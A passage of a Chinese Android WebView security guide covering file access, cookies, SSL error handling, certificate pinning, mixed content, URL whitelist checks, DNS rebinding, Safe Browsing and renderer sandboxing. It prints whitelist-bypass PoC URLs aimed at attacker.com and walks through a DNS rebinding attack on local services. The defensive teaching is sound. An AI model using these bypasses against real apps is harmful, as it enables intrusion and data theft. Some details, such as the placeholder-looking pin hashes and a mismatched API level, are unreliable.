在 `androidx.webkit` 的源码中，`WebViewAssetLoader` 核心逻辑运行在拦截器的 `shouldInterceptRequest` 过程中。当调用 `assetLoader.shouldInterceptRequest(request.url)` 时，底层解析器会将虚拟域名解析并匹配到指定的 `PathHandler` 上。

以 `AssetsPathHandler` 为例，其核心方法是 `handle(path)`，在该方法内部：
1. **输入流安全限制**：它通过调用系统的 `Context.getAssets().open(path)` 打开本地静态资源。
2. **MIME 类型自动推导**：通过 `MimeTypeMap` 自动识别并推导文件的 MIME 类型（例如将 `.js` 文件识别为 `application/javascript`，`.css` 识别为 `text/css`），避免了因手动解析 MIME 类型出错而导致的 JS 挂死或跨站解析错误。
3. **安全响应构造**：构造并返回一个包含完整 HTTP 状态码、正确的 Content-Type 以及跨源头部（CORS headers）的 `WebResourceResponse`。

##### 源码级实践

```kotlin
// 依赖：implementation("androidx.webkit:webkit:1.6.0")

val assetLoader = WebViewAssetLoader.Builder()
    .setDomain("appassets.androidplatform.net") // 默认安全虚拟域名
    .addPathHandler("/assets/", WebViewAssetLoader.AssetsPathHandler(context))
    .addPathHandler("/res/", WebViewAssetLoader.ResourcesPathHandler(context))
    .build()

webView.webViewClient = object : WebViewClient() {
    override fun shouldInterceptRequest(
        view: WebView,
        request: WebResourceRequest
    ): WebResourceResponse? {
        // 拦截虚拟 HTTPS 请求并安全映射为本地输入流
        return assetLoader.shouldInterceptRequest(request.url)
    }
}

// 禁用不安全的本地 file:// 协议访问
webView.settings.apply {
    allowFileAccess = false
    allowFileAccessFromFileURLs = false
    allowUniversalAccessFromFileURLs = false
}

// 通过虚拟 HTTPS 域名安全加载 H5 页面
webView.loadUrl("https://appassets.androidplatform.net/assets/index.html")
```

#### 5. 跨进程数据窃取与 LocalStorage/Cookie 安全防护

混合应用的数据除了存储在 Native 的 SharedPreferences 或数据库中，同样大量保存在 H5 引擎的内部存储中，如 LocalStorage、SessionStorage 和 Cookie。

##### 本地物理存储分析
在 Android 的私有目录下，LocalStorage 和 IndexedDB 并不是保存在内存中的虚拟空间，而是保存在物理磁盘上的。在 `/data/data/<package_name>/app_webview/Local Storage/leveldb/` 中，以 LevelDB 数据库文件的形式持久化存储。

如果宿主 App 开启了 `WebSettings.setDomStorageEnabled(true)` 且本地文件访问权限失控，JS 脚本即可直接定位到该物理目录，进而读取甚至篡改其他受信任 Web 业务在 LocalStorage 中存放的敏感 Token、用户会话或缓存证书。

##### Cookie 的安全策略（HttpOnly 与 Secure）
Cookie 是鉴权的敏感凭证。为了防御 XSS 攻击对 Cookie 的直接读取，必须在服务端下发 Cookie 时强制注入 `HttpOnly` 标记。这一机制要求 WebView 在底层拦截脚本对 `document.cookie` 的访问——一旦带有 `HttpOnly`，Blink 的 JS 引擎将对其直接屏蔽，使其仅在网络请求头部传输。

同时，必须利用 `CookieManager` 设定仅允许在安全的 HTTPS 链路上传输（Secure 属性）：

```kotlin
val cookieManager = CookieManager.getInstance()
cookieManager.setAcceptCookie(true)

// 在 5.0+ 之后，强制启用跨域 Cookie 传输支持，以便在虚拟域名下安全读取
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.LOLLIPOP) {
    cookieManager.setAcceptThirdPartyCookies(webView, true)
}
```

#### 6. 禁用 file 域后的多媒体共享替代方案：FileProvider 的细粒度授权

完全禁用 `file://` 后，很多 H5 业务页面（如用户头像上传、附件选取、本地 PDF 打开）需要加载物理 SD 卡或系统相册里的照片。

如果把路径直接传递为 `file:///sdcard/Pictures/...`，WebView 会由于 `allowFileAccess = false` 而报错拦截。正确的替代方法是**利用 Android 系统的 FileProvider 将其转化为临时的 content:// 协议 URI**。

`content://` 协议是由 ContentProvider 托管的。其核心优势在于**临时且极其细粒度的文件访问授权**：

```kotlin
// 1. 获取本地物理文件的 Content Uri
val photoFile = File(context.cacheDir, "temp_photo.jpg")
val contentUri = FileProvider.getUriForFile(
    context, 
    "${context.packageName}.fileprovider", 
    photoFile
)

// 2. 构造一个隐式 Intent 跳转至 WebView 页面，或者直接传递授权
val intent = Intent(context, WebViewActivity::class.java).apply {
    data = contentUri
    // 关键：授予目标组件临时的读权限
    addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION)
}
context.startActivity(intent)
```

在 `WebViewActivity` 接收到这个 `contentUri` 后，可以在 `shouldInterceptRequest` 中利用 `ContentResolver` 读取该 URI 输入流：

```kotlin
override fun shouldInterceptRequest(
    view: WebView,
    request: WebResourceRequest
): WebResourceResponse? {
    val url = request.url
    if (url.scheme == "content") {
        return try {
            val inputStream = context.contentResolver.openInputStream(url)
            WebResourceResponse("image/jpeg", "UTF-8", inputStream)
        } catch (e: Exception) {
            null
        }
    }
    return null
}
```

这样，WebView 容器仅能读取宿主 App 显式授权的这一个特定文件（`temp_photo.jpg`），而绝对无法去遍历、访问宿主应用的私有数据库目录，极大地降低了安全越权风险。

---

### 漏洞三：HTTPS 证书绕过漏洞（onReceivedSslError 中间人攻击）

#### 1. 漏洞根源与认知误区

在网络通信中，HTTPS 通过 SSL/TLS 证书验证来保证数据的机密性与完整性。如果服务器证书无效（如过期、自签名、CA 链不合法、域名与证书 Common Name 不匹配），WebView 会回调 `WebViewClient` 的 `onReceivedSslError` 方法，并默认挂起请求，等待开发者处理。

许多开发者存在一个认知误区：“既然我使用 HTTPS 只是为了对流量进行对称加密，防止运营商插入广告，那么即使证书报错，只要我继续建立连接，流量依然是加密传输的，这不算安全漏洞。”

这种想法是完全错误的。**没有身份校验的加密等同于没有加密**。如果通信双方在建立加密通道时，无法验证对方的真实物理身份，那么中间人可以非常轻松地通过拦截并将自己插在中间，实现双向透明代理。

#### 2. 中间人攻击（MitM）的物理链路推导

无条件调用 `handler.proceed()` 会直接导致**中间人攻击（Man-in-the-Middle Attack, MitM）**。黑客在同一局域网（如公共 Wi-Fi）或通过网络劫持，可以伪造通信链路：



1. **流量劫持**：攻击者通过 ARP 欺骗或 DNS 劫持，将 App 指向的真实业务域名（如 `https://api.mybank.com`）解析到攻击者控制的代理服务器上。
2. **伪造证书**：代理服务器向 App 响应一个临时生成的自签名证书。
3. **安全校验失效**：WebView 发现证书域名或 CA 不受信任，回调 `onReceivedSslError`。App 在此调用了 `handler.proceed()`，屏蔽了安全警告。
4. **隧道建立**：WebView 认为连接安全，完成握手。此时，App 发送的所有敏感数据（如登录密码、交易 Token、个人隐私）都会在黑客的代理服务器上被解密为明文。攻击者甚至可以任意篡改返回给 Web 页面的 HTML/JS 脚本，实施劫持钓鱼。

#### 3. 安全防范与最佳实践

在生产环境中，**严禁无条件放行 SSL 证书错误**。应根据当前的构建环境与细粒度的证书错误类型进行差异化处理：

```kotlin
override fun onReceivedSslError(view: WebView, handler: SslErrorHandler, error: SslError) {
    if (BuildConfig.DEBUG) {
        // 仅在 Debug 模式下允许忽略自签名证书，方便联调
        handler.proceed()
    } else {
        // 生产环境直接拒绝连接，防范中间人攻击
        handler.cancel()
        
        // 针对不同类型的 SSL 错误进行上报或给用户以友好提示
        when (error.primaryError) {
            SslError.SSL_EXPIRED -> Log.e("SslError", "证书已过期")
            SslError.SSL_IDMISMATCH -> Log.e("SslError", "域名与证书不匹配")
            SslError.SSL_UNTRUSTED -> Log.e("SslError", "CA 证书不受信任")
            else -> Log.e("SslError", "SSL 校验失败: ${error.primaryError}")
        }
    }
}
```

#### 4. 进阶防范：网络安全配置与证书固定

为了支持合法的自签名证书（如企业内部测试环境），应通过 Android 系统级的**网络安全配置（Network Security Config）**机制来实现，而非修改 WebView 的 Java 代码。

##### 网络安全配置（res/xml/network_security_config.xml）

自 Android 7.0 (API 24) 起，推荐使用声明式配置文件来限制 App 所信任的证书阻断：

```xml
<?xml version="1.0" encoding="utf-8"?>
<network-security-config>
    <!-- 限制仅在 debug 阶段信任自签名证书 -->
    <debug-overrides>
        <trust-anchors>
            <certificates src="@raw/debug_self_signed_ca" />
        </trust-anchors>
    </debug-overrides>
    
    <!-- 生产环境配置证书固定 (Certificate Pinning) -->
    <domain-config>
        <domain includeSubdomains="true">api.mycompany.com</domain>
        <pin-set expiration="2027-12-31">
            <!-- 真实证书 Public Key 的 SHA-256 Hash 值 -->
            <pin digest="SHA-256">7HIpmsZkxtCIgmdW2xfn9Bu21PLS+3f4SA3vOaDcd5o=</pin>
            <!-- 备用证书 Pin 码 -->
            <pin digest="SHA-256">r5GzZkx8xtCIgmdW2xfn9Bu21PLS+3f4SA3vOaDcd5o=</pin>
        </pin-set>
    </domain-config>
</network-security-config>
```

并在 `AndroidManifest.xml` 中指定该配置：

```xml
<application
    android:networkSecurityConfig="@xml/network_security_config"
    ...>
</application>
```

#### 5. 系统时钟回拨引发的 SSL 错误与防范（常见工程灾难）

在安卓生态中，有相当比例的 SSL 报错并非来自恶意中间人攻击，而是由于用户设备的系统时间不准确（例如设备长期关机导致系统时钟被重置为 1970 年，或者用户手动将时间调回过去的某一天）。当系统时间不在证书的有效期（Not Before - Not After）范围内时，WebView 的安全校验机制会强制抛出 `SslError.SSL_EXPIRED`（证书已过期）或 `SslError.SSL_NOTYETVALID`（证书尚未生效）。

许多开发者在接到线上用户“无法加载页面”的客诉反馈后，为了快速恢复业务，会极其错误地采用 `handler.proceed()` 来忽略所有的过期错误。这为中间人攻击打开了绝对的后门，黑客只需要利用一张过期的自签名假证书，就能完全劫持该用户的全部流量。

正确的工程处理逻辑是：在检测到 `SslError.SSL_EXPIRED` 错误时，App 应当读取当前的系统物理时间，并向一个可信的、采用 HTTP 协议（或独立底层 OkHttp TLS 握手，确保不依赖 WebView）的 NTP 授时服务或基站授时服务发起一次超时的轻量级请求，获取互联网标准时间。如果发现本地系统时间与标准时间偏差超过 10 分钟，App 应当弹窗阻断 WebView 加载，并明确提示引导用户跳转至系统的“日期和时间设置”界面调整时区和时间，从根本上兼顾了安全校验与工程实用性。

#### 6. SslErrorHandler 的跨线程执行与主线程 ANR 防范

需要深入强调的是，`WebViewClient.onReceivedSslError()` 是在宿主 App 的 **UI 主线程** 中被引擎回调的。如果在这个回调里执行耗时操作，例如弹出一个阻塞的对话框等待用户手动确认是否放行，或者通过本地 SQLite 数据库查询某张特定证书是否已被主动拉黑，会导致 WebView 的渲染管线完全阻塞，甚至触发系统 ANR（Application Not Responding）警告。

幸运的是，`SslErrorHandler` 内部维护的是一个持有底层 Chromium 网络通道引用的 JNI 指针，它的 `proceed()` 和 `cancel()` 方法是**线程安全**的，可以在任何后台工作线程中被调用。因此，当需要结合第三方安全 SDK 进行复杂的在线证书吊销列表（CRL）或在线证书状态协议（OCSP）查询时，开发者应当立即通过协程或线程池将任务分发到后台线程，而主线程则先展示一个优雅的加载 Loading 界面，等后台线程得出安全决策后，再异步调用 `handler.cancel()` 或 `handler.proceed()`，这才是高健壮性混合容器的安全标准写法。

---

### 漏洞四：混合内容（Mixed Content）风险

#### 1. 什么是 Mixed Content 及其危害？

当主 HTML 页面通过安全的 **HTTPS** 协议加载，但页面中引用的子资源（如 JavaScript 脚本、CSS 样式、图片、Iframe、Ajax 请求等）却是通过不安全的 **HTTP** 协议加载时，就产生了**混合内容（Mixed Content）**。

在混合安全学说中，子资源被分为两类：
*   **主动混合内容（Active Mixed Content）**：指那些具有修改 DOM 树、执行外部代码权限的脚本与样式资源（如 `.js`、`.css`、`Web Worker`、`Iframe` 等）。
*   **被动混合内容（Passive Mixed Content）**：指那些仅仅被渲染展示，无法直接操纵上下文 DOM 的媒体资源（如 `.png`、`.jpg`、`.mp4` 等）。

主动混合内容的危害是致命的。如果一个原本安全的 HTTPS 页面（如 `https://mybank.com`）引用了一个 HTTP 协议的 JS 脚本（如 `http://cdn.com/helper.js`），在数据传输过程中，由于 HTTP 没有任何加密和完整性校验，中间人（黑客）可以随意篡改该 JS 脚本，并在其中注入键盘监听、Cookie 劫持等恶意代码。因为该脚本最终是在 `https://mybank.com` 的安全上下文中执行的，它可以直接读取主域名的 Session Storage、监听用户的输入并直接通过 HTTPS 将账密外传，彻底攻破了 HTTPS 建立的安全信道。

#### 2. 三种安全策略深度对比

在 Android WebView 中，可以通过 `WebSettings.setMixedContentMode(int mode)` 控制混合内容的加载策略。系统提供了三种不同的加载模式：

| 模式常量 | 底层行为区别 | 安全性评估 | 适用场景与取舍 |
| :--- | :--- | :--- | :--- |
| `MIXED_CONTENT_ALWAYS_ALLOW` | 总是允许 HTTPS 页面加载 HTTP 资源。Web 引擎不对混合内容做任何限制与拦截。 | **极低**（完全破坏 HTTPS 提供的机密性与完整性） | **严禁使用**。这允许攻击者在传输链中拦截并篡改 HTTP 的主动内容（如 JS 脚本），从而在 HTTPS 的上下文中执行恶意代码，窃取 HTTPS 源下的敏感 Cookie 或 LocalStorage。 |
| `MIXED_CONTENT_NEVER_ALLOW` | 绝不允许混合内容。任何 HTTPS 页面尝试加载的 HTTP 资源都将被强行拦截，控制台会输出 Mixed Content 拦截日志。 | **极高**（符合现代主流 Web 标准与 CSP 规范） | **推荐模式**。确保了网页内容的完全安全性，但对一些历史遗留网页（其中包含大量硬编码 `http://` 图片或静态资源）可能导致部分界面无法正常显示。 |
| `MIXED_CONTENT_COMPATIBILITY_MODE` | 兼容模式。对于主动内容（Active Content，如 JS/CSS），WebView 会强行拦截；而对于被动内容（Passive Content，如图片、音视频），WebView 倾向于允许加载。 | **中等** | 作为向完全禁止混合内容过渡的中间状态。允许被动内容加载可以保证基础展示完整性，但仍存在隐私泄露风险（被动内容泄露了用户浏览足迹与请求参数）。 |

#### 3. Android 5.0+ 默认防护策略的升级

自 Android 5.0（API 21）起，Android WebView 的 `MixedContentMode` 默认值变更为 **`MIXED_CONTENT_NEVER_ALLOW`**，而在 Android 5.0 之前，其默认值是 `MIXED_CONTENT_ALWAYS_ALLOW`。

这一升级彻底杜绝了由于混合内容引起的主动脚本注入隐患。开发者在将 Target SDK 升级至 21 及以上时，若发现部分旧版网页的图片无法展示，**绝不可盲目将模式修改回 `MIXED_CONTENT_ALWAYS_ALLOW`**。正确的解决方案是在服务端全面推行 HTTPS 化，或者在 HTML 头部配置 CSP 以实现自动升级请求：

```html
<!-- 在 HTML 头部加入，指导浏览器将所有的不安全 HTTP 资源请求自动升级为安全 HTTPS 请求 -->
<meta http-equiv="Content-Security-Policy" content="upgrade-insecure-requests">
```

---

### 漏洞五：URL 拦截白名单绕过漏洞

#### 1. 场景分析：shouldOverrideUrlLoading 中的鉴权逻辑

当 WebView 内运行的网页需要调用 Native 敏感能力（例如唤起支付、调起相机、或者调用 JSBridge 接口）时，App 通常会在 `WebViewClient` 的 `shouldOverrideUrlLoading(WebView view, WebResourceRequest request)` 回调中进行 URL 拦截。

为了防止任意外部第三方网页恶意调用这些特权接口，开发者往往会设计一个域名白名单（Whitelist）进行匹配与鉴权。然而，由于对 URL 解析特性理解不深，校验逻辑经常出现漏洞。

#### 2. 常见漏洞匹配模式与绕过手段



##### 误区一：使用 String.contains() 匹配

```java
// 危险逻辑：校验 URL 中是否包含 mycompany.com
if (url.contains("mycompany.com")) {
    // 执行敏感特权操作
}
```
*   **绕过 PoC**：`http://www.attacker.com/leak?domain=mycompany.com` 或者 `http://mycompany.com.attacker.com`
*   **成因**：`contains` 仅仅校验子串，攻击者可以将白名单域名作为 Query 参数，或者作为自身二级域名的前缀，从而轻松通过校验。

##### 误区二：使用 String.startsWith() 匹配

```java
// 危险逻辑：校验 URL 是否以 http://mycompany.com 开头
if (url.startsWith("http://mycompany.com")) { ... }
```
*   **绕过 PoC**：`http://mycompany.com.attacker.com`
*   **成因**：由于域名从右向左解析，`mycompany.com.attacker.com` 的实际物理 Host 是 `attacker.com`，而非 `mycompany.com`。

##### 误区三：忽略 Authority 字段中的 `@` 符号混淆

```java
// 危险逻辑：校验 Host 后缀
Uri uri = Uri.parse(url);
if (uri.getHost().endsWith("mycompany.com")) { ... }
```
*   **绕过 PoC**：`https://mycompany.com@attacker.com/api`
*   **成因**：在 URL 标准格式中，`@` 符号前表示的是 HTTP Basic Auth 的用户名 and 密码（即 `username:password@host`）。某些旧版 Android 系统或不规范的正则解析器在解析上述 URL 时，可能会错误地提取 Host 为 `mycompany.com`。但在底层 Blink 引擎发起真实网络请求时，实际访问的目标服务器其实是 `attacker.com`。这直接导致了 Host 校验与实际请求目标的严重不一致。

#### 3. 深层 Host 欺骗：Unicode 字符混淆（同形异形字）与 Punycode 绕过防范

除了传统的 URL 参数拼接绕过，现代黑客常采用更为高深的 **IDN 同形异形字攻击（Internationalized Domain Name Homograph Attack）**。

在 Unicode 字符集中，许多来自不同语系的字母看起来几乎一模一样。例如，拉丁字母 `a`（U+0061）与西里尔字母 `а`（U+0430），以及希腊字母 `α`（U+03B1）。

如果攻击者注册了域名 `https://mycomраny.com`（注意：其中的 `ра` 二字是西里尔字母），且用户在不知情的情况下访问了该网站。
*   在进行字符串后缀比对时，如果系统没有先将域名标准化转换（转换为 Punycode），而是直接以 Unicode 形式比对，看似拼写完全正确，其实底层的字节流为：
    `mycompany.com` -> 正常 ASCII
    `mycomраny.com` -> 转换为 Punycode 后为 `xn--mycomny-e1aa.com`。
*   如果宿主应用在桥接鉴权处未能防御同形字欺骗，就会错误地信任该恶意域名，导致特权 JS 接口全面泄露。

为了防范同形字欺骗，白名单校验必须使用 `java.net.IDN` 类，在提取 Host 后将其强行统一转码为 Punycode 标准 ASCII 字符串，然后再与白名单进行匹配比对。

#### 4. DNS Rebinding (DNS 重绑定) 攻击原理与 WebView 防范

除了域名字符串校验漏洞，混合容器还面临着一种极其阴险的底层协议级绕过攻击：**DNS 重绑定攻击 (DNS Rebinding)**。这一攻击无需在域名解析字符串上做任何绕过，而是直接穿透 Web 浏览器的同源策略（SOP）。

##### 4.1 攻击物理链路深度剖析
同源策略的核心在于，如果协议、域名和端口一致，则认为同源，允许 JavaScript 自由发起 AJAX 请求或读取 DOM。然而，同源策略默认信任**域名系统 (DNS)** 提供的解析结果。DNS 重绑定攻击正是利用了这一点：

```
                    [ 攻击者控制的 DNS 服务器 ]
                     /                      \
             (1) 首次解析              (3) 第二次解析
               TTL = 0s                  TTL = 0s
                 /                          \
                v                            v
          [ 恶意 Web 服务器 IP ]       [ 本地私有回环 IP ]
             (182.50.3.4)                 (127.0.0.1)
```

1. **注册恶意域名并控制 DNS 权威解析器**：攻击者注册一个域名（如 `http://rebinding.evil.com`），并将该域名的 DNS 权威服务器指向自己控制的恶意 DNS 服务器。该服务器解析时设置生存时间 (TTL) 为 0，即要求客户端绝不缓存该解析结果。
2. **诱导 WebView 加载恶意网页**：当 WebView 加载 `http://rebinding.evil.com` 时，WebView 发起 DNS 查询。恶意 DNS 服务器返回攻击者恶意 Web 服务器的公网 IP `182.50.3.4`。WebView 成功加载恶意 HTML 页面。
3. **动态改变 IP 映射**：恶意 HTML 页面在 WebView 中保持运行，并使用 `setInterval` 启动一个循环的 AJAX 数据拉取脚本。片刻之后，恶意 DNS 服务器将该域名的解析 IP 变更为本地回环地址 `127.0.0.1`（或者局域网内其他服务器 IP）。
4. **发起 AJAX 请求窃取数据**：当网页的 JavaScript 发起下一次 AJAX 请求（如访问 `http://rebinding.evil.com/status`）时，由于 DNS 缓存已过期（TTL = 0），WebView 的网络内核重新发起 DNS 查询。这次，查询返回了 `127.0.0.1`。
5. **绕过 SOP 成功**：在 WebView 的安全模型看来，发起请求的源依然是 `http://rebinding.evil.com`，这与请求的目标域名完全一致，属于**同源**。然而在物理层，该 AJAX 请求已经被发送到了手机本地运行的局域网特权服务（如 App 内置的 Local Web Server、本地控制台调试端口等）。攻击者网页可以轻易读取本地回传的敏感配置，再通过跨域网络请求将其外传。

##### 4.2 WebView 侧的防范方案
在 Android WebView 混合容器中，防范 DNS 重绑定攻击可以采取以下手段：
*   **不启用本地 Local Web Server**：很多应用为了提升 H5 加载首屏性能，会在宿主 App 本地开启一个 Jetty、NanoHTTPD 等微型 Local Web Server，通过 `http://localhost:8080/` 渲染 H5。这为 DNS 重绑定攻击提供了极佳的靶子。应坚决弃用本地端口监听方案，改用 `WebViewAssetLoader`。
*   **进行 IP 白名单拦截校验**：在 `shouldInterceptRequest` 回调中，当解析到白名单域名请求时，可结合自定义的 DNS 拦截解析器（如 OkHttp + DNS-over-HTTPS/自定义 DNS），验证解析出的目标 IP 地址。如果发现白名单域名被解析到了本地回环 IP（`127.0.0.1`、`::1`）或私有 A/B/C 类局域网 IP（`10.0.0.0/8`、`172.16.0.0/12`、`192.168.0.0/16`），应立即判定为 DNS 重绑定劫持，并拦截该请求。

#### 4. 严密的 Uri 校验方案

为了构建无懈可击的白名单匹配逻辑，必须使用标准的 `android.net.Uri` 类，执行**先解析、再提取 Host、后进行后缀比对**的严格流程，并且必须校验 Scheme：

```kotlin
package com.security.webview

import android.net.Uri
import java.net.IDN
import java.util.Locale

object SafeHostVerifier {

    private val HOST_WHITELIST = setOf(
        "mycompany.com",
        "mysubdomain.mycompany.com"
    )

    fun isTrustedUrl(urlString: String?): Boolean {
        if (urlString.isNullOrBlank()) return false

        return try {
            val uri = Uri.parse(urlString)
            val scheme = uri.scheme?.lowercase(Locale.US)
            val rawHost = uri.host?.lowercase(Locale.US)

            // 1. 强制限制仅允许 HTTPS 协议安全连接
            if ("https" != scheme) {
                return false
            }

            if (rawHost.isNullOrBlank()) {
                return false
            }

            // 2. 防御同形异形字攻击：将 Unicode 域名强制统一转换为 ASCII Punycode
            val host = IDN.toASCII(rawHost)

            // 3. 严格的 Host 比对（只允许 mycompany.com 及其子域名）
            // 采用精准的后缀匹配，必须满足 host 恰好等于白名单域名，或者以 ".白名单域名" 结尾
            HOST_WHITELIST.any { trustedHost ->
                val asciiTrustedHost = IDN.toASCII(trustedHost)
                host == asciiTrustedHost || host.endsWith(".$asciiTrustedHost")
            }
        } catch (e: Exception) {
            false
        }
    }
}
```

并在 `shouldOverrideUrlLoading` 中实施校验：

```kotlin
override fun shouldOverrideUrlLoading(view: WebView, request: WebResourceRequest): Boolean {
    val url = request.url.toString()
    
    // 拦截自定义协议 Scheme (例如：myapp://)
    if (url.startsWith("myapp://")) {
        // 进行特权调用前，必须校验“当前 WebView 正在展示的网页”是否在白名单内
        val currentUrl = view.url
        if (SafeHostVerifier.isTrustedUrl(currentUrl)) {
            executeNativeAction(url)
        } else {
            Log.w("WebViewSecurity", "未授信源尝试唤起 Native 能力: $currentUrl")
        }
        return true
    }
    
    // 加载常规网页跳转时，如果不在白名单域名内，可以限制其打开或者禁止敏感接口注入
    if (!SafeHostVerifier.isTrustedUrl(url)) {
        // 可以选择禁止在主容器加载非受信的外网链接
        // view.loadUrl("about:blank") 
        // return true
    }
    
    return false
}
```

---

## 3. 实践应用与防范治理

要彻底防范 WebView 安全风险，需要从底层配置、权限控制、跳转拦截、高级沙箱等多个维度进行全方位的加固治理。

### 3.1 现代 WebView 安全加固策略清单

以下提供一份适用于生产环境的 WebView 安全配置加固集（Kotlin 实现）：

```kotlin
fun applyWebViewSecurityPolicy(webView: WebView) {
    val settings = webView.settings
    
    // 1. 禁用一切不必要的 file:// 协议访问，防范跨源沙箱文件窃取
    // 自 API 30 起默认即为 false，此处显式设置以防止旧版本兼容问题
    settings.allowFileAccess = false
    settings.allowFileAccessFromFileURLs = false
    settings.allowUniversalAccessFromFileURLs = false
    
    // 2. 强制混合内容策略为顶级安全模式 (API 21+)
    // 杜绝 HTTPS 页面加载不安全的 HTTP Active Content
    settings.mixedContentMode = WebSettings.MIXED_CONTENT_NEVER_ALLOW
    
    // 3. 禁用地理位置、数据库存储等敏感能力 (按需开启)
    settings.setGeolocationEnabled(false)
    settings.databaseEnabled = false
    
    // 4. 控制 LocalStorage 与 SessionStorage (若非必须，建议关闭)
    // 防止受到 XSS 攻击时，保存在本地缓存中的敏感数据（Token、用户信息）被窃取
    settings.domStorageEnabled = false 
    
    // 5. 限制保存密码与表单数据自动填充
    @Suppress("DEPRECATION")
    settings.savePassword = false // 防范物理设备遗失或命令执行时读取缓存凭证
    settings.saveFormData = false
    
    // 6. 严禁在生产环境开启 WebView 的 Debug 模式
    // 开启此模式后，攻击者可连接 PC 通过 Chrome DevTools 注入任意 JS 脚本控制页面
    if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
        WebView.setWebContentsDebuggingEnabled(BuildConfig.DEBUG)
    }
}
```

### 3.2 启用安全浏览服务（Safe Browsing）

自 Android 8.0（API 26）起，WebView 深度集成了 Google Safe Browsing（安全浏览）服务。它会在后台静默校验加载的 URL。如果发现页面被标记为恶意钓鱼网站、挂马网站或含有恶意软件，WebView 会自动拦截并展示一个系统级别的安全警示遮罩页，防止用户受骗。

#### 开启与配置方式

1. **Manifest 声明开启**（推荐，系统级控制）：
   在 `<application>` 节点中添加以下 meta-data 声明：
   ```xml
   <application ...>
       <meta-data
           android:name="android.webkit.WebView.EnableSafeBrowsing"
           android:value="true" />
   </application>
   ```
2. **代码动态初始化校验**：
   在 Application 启动时，可对安全浏览服务进行预热和就绪校验：
   ```kotlin
   if (WebViewFeature.isFeatureSupported(WebViewFeature.START_SAFE_BROWSING)) {
       WebViewCompat.startSafeBrowsing(context) { success ->
           if (success) {
               Log.i("WebViewSecurity", "Google 安全浏览初始化成功")
           } else {
               Log.w("WebViewSecurity", "安全浏览服务在此设备上不可用")
           }
       }
   }
   ```
3. **自定义安全警告回调**：
   重写 `WebViewClient` 的 `onSafeBrowsingHit` 方法，允许在命中恶意网站时进行自定义日志记录、数据统计或修改展示页行为：
   ```kotlin
   override fun onSafeBrowsingHit(
       view: WebView,
       request: WebResourceRequest,
       threatType: Int,
       callback: SafeBrowsingResponse
   ) {
       // 上报恶意 URL 至公司安全监控后台
       reportMaliciousUrl(request.url.toString(), threatType)
       
       // 执行默认处理：向用户展示系统红色的拦截警告页面
       callback.showInterstitial(true)
   }
   ```

#### Safe Browsing 底层机制深度解析
Safe Browsing 服务之所以能够高效且安全地进行网址拦截，主要得益于其精妙的**隐私保护过滤查询模型**：
1. **哈希前缀比对（Hash Prefix Matching）**：为了防止将用户的网页访问历史直接暴露给 Google，系统并不会直接发送网页的明文 URL。系统会对当前 URL 统一计算 SHA-256 哈希值，并取该哈希值的前 4 至 32 字节（前缀），与本地下载的高危地址前缀库（Safe Browsing Database）进行快速离线比对。
2. **云端精准验证**：如果本地比对发现哈希前缀命中，说明当前 URL 存在高危可能。此时，Client 才会发起网络请求，将这部分哈希前缀发送至 Google 的云端解析服务器。云端会返回匹配该前缀的所有恶意 URL 的完整哈希值列表。客户端在本地接收该列表后，再比对完整的 SHA-256 哈希，如果完全一致，则最终判定命中恶意钓鱼网站。
3. **拦截降级防护**：即使网络请求由于某些原因（如网络超时、Google 服务离线等）失败，出于可用性考量，WebView 会自动选择安全降级策略，允许页面继续加载，并打印降级日志，确保业务不会大面积瘫痪。

### 3.3 启用渲染器多进程与沙箱限制（Renderer Process Sandboxing）

这是系统层面抵御 Chrome V8 内存漏洞的最核心屏障。自 Android 8.0（API 26）起，系统将 WebView 的内部架构重构为**多进程架构**：

```
+--------------------------------------------------------------+
|                    主进程 (App Main Process)                  |
|  - UI 渲染线程、App 业务逻辑                                   |
|  - WebView Java 代理对象 (获取系统网络连接、调用 Native 能力)  |
+--------------------------------------------------------------+
                               |
                               |  Binder IPC
                               v
+--------------------------------------------------------------+
|               WebView 渲染进程 (Isolated Renderer)            |
|  - Blink 渲染引擎、V8 JavaScript 引擎                        |
|  - 拥有隔离 of Linux UID (isolatedProcess = true)              |
|  - 无网络访问权限、无系统存储读写权限                           |
+--------------------------------------------------------------+
```

#### 1. 核心防护逻辑与进程隔离

WebView 的渲染进程被声明为 `android:isolatedProcess="true"`，在内核层面获得了高度隔离。Linux 内核通过分配专属的、动态生成的 isolated-UID（如 `u0_i1002`），使该进程无法执行除了由内存分配和基础 CPU 运算之外的大多数系统调用。它甚至不具备任何标准的 Android 权限（如 `INTERNET` 或 `WRITE_EXTERNAL_STORAGE`）。所有的网络请求、静态文件读取、UI 事件收集，都必须通过 IPC（Binder 通信）委托给运行在 App 主进程中的 WebView 主对象来代理执行。

在内核的 SELinux 策略中，隔离的渲染进程运行在 `isolated_app` 的安全上下文域中。在这个域内，进程对于本地沙箱存储文件系统的所有 I/O 操作直接被内核的 SELinux 模块驳回。这为整个应用提供了极强的系统级强隔离机制。

#### 2. 防止 JIT 内存漏洞溢出

V8 引擎包含 JIT 编译器，为了保证执行效率，需要频繁在内存中分配具有可读、可写、可执行（RWX）属性的页面。这使其成为了内存堆破坏漏洞（如 Out-of-Bounds 越界访问、Type Confusion 类型混淆）的温床。在多进程架构下，黑客如果利用 JIT 编译器漏洞攻破了 V8 的内存防护，他就仅仅控制了被高度限制的 `Isolated Renderer` 进程。由于该进程处于无文件权限和网络套接字的沙箱中，黑客无法直接读取主进程 `/data/data/<package_name>` 目录下的私有数据库，也无法向外发送敏感数据，将内存漏洞的扩散面死死控制在渲染器沙箱内。

#### 3. 启用方法与状态确认

在 Target SDK >= 26 且运行在 Android 8.0+ 的设备上，此行为是默认启用的。开发者应避免在 Manifest 中通过过时的进程属性（如 `android:process`）将 WebView 的核心组件强行拉回主进程运行，以确保该沙箱隔离持续有效。可以通过以下代码动态获取并监控 WebView 的进程状态：

```kotlin
// 自 Android 9.0 (API 28) 起提供，用于判断 WebView 是否已开启独立的渲染进程运行
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.Q) {
    webView.webViewRenderProcessClient = object : WebViewRenderProcessClient() {
        override fun onRenderProcessUnresponsive(view: WebView, renderer: WebViewRenderProcess?) {
            // 当渲染子进程无响应 (卡死或遭受拒绝服务攻击) 时触发
            Log.e("WebViewSecurity", "渲染进程挂起，尝试终止或重启...")
            renderer?.terminate()
        }

        override fun onRenderProcessResponsive(view: WebView, renderer: WebViewRenderProcess?) {
            Log.i("WebViewSecurity", "渲染进程恢复响应")
        }
    }
}
```

